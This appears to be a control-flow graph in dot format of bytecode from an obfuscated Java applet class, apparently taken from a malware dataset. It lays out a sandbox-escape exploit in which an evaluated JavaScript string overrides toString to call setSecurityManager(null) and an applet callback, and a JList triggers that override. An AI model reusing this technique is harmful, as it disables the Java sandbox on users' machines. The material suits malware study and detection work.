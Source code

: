 digraph "" {
    "r0 := @this: M3GkZ906AkloBotA69"
    "staticget <java.lang.System: java.io.PrintStream out>"
    "r0 := @this: M3GkZ906AkloBotA69"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"OKKK\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"OKKK\"";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "push \"OKKK\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "load.r r0"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"js\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"js\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"js\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "dup1.r"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r r1"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"applet\""
    "load.r r1"->"push \"applet\"";
    "push \"applet\""->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "push \"this.toString = function(){   java.lang.System.setSecurityManager(null);    applet.callBack();};   var err = new Error(\'\');   err.message = this;   err;\""
    "pop"->"push \"this.toString = function(){   java.lang.System.setSecurityManager(null);    applet.callBack();};   var err = new Error(\'\');   err.message = this;   err;\"";
    "push \"this.toString = function(){   java.lang.System.setSecurityManager(null);    applet.callBack();};   var err = new Error(\'\');   err.message = this;   err;\""->"load.r r1";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r r1"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <M3GkZ906AkloBotA69: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <M3GkZ906AkloBotA69: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <M3GkZ906AkloBotA69: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <M3GkZ906AkloBotA69: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}
